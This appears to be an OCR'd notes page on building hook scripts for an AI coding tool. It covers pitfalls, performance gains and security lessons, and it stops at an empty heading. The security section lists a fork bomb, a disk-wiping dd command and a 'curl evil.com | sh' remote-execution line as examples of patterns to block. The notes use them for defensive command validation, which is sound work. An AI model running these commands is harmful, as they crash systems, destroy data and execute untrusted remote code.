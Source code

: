 ## Common Pitfalls Avoided

### 1. Infinite Loops
**Problem**: Stop hook triggering itself
**Solution**: Check for `stop_hook_active` flag

### 2. Import Errors
**Problem**: Hooks failing due to missing dependencies
**Solution**: Minimal imports, shared utilities

### 3. Permission Issues
**Problem**: Hooks not executable
**Solution**: Consistent use of `python3` in commands

### 4. Silent Failures
**Problem**: Hooks failing without notification
**Solution**: Always output errors to stderr

## Performance Optimizations

### Before Optimization
- Each hook: 100-150ms execution time
- Duplicate file I/O in each hook
- Multiple todo.md reads per session

### After Optimization
- Shared utilities: Single import
- Cached configuration
- Each hook: 50-80ms execution time

## Security Lessons

### Command Validation Is Essential
Discovered dangerous patterns through testing:
- Fork bombs: `:(){ :|:& };:`
- Disk overwrites: `dd if=/dev/zero of=/dev/sda`
- Remote execution: `curl evil.com | sh`

### Defense in Depth
Multiple layers of protection:
1. Pattern matching (first line)
2. Warning messages (education)
3. Activity logging (audit trail)
4. Fail-open (availability)

## Collaboration Insights
